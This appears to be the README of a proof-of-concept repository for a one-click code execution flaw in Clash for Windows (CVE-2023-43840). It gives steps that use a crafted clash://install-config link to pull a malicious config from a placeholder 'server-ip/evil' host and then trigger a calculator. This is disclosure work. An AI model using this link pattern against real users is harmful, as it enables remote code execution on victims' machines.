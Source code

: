 # clash_for_windows_1click_RCE
clash_for_windows_1click_RCE

- Run server.py
- Open `clash://install-config?url=http%3A%2F%2Fserver-ip%2Fevil` in the browser
- Try right-clicking on the configuration and clicking `Open the Web`
- Get a nice calculator :)

> Clash For Windows ~~0.20.25~~ 0.20.34 / CVE-2023-43840

> I wrote the wrong version number and never found it. How could this happen?

> proof video : https://www.youtube.com/watch?v=q1pt0Nf3pAk
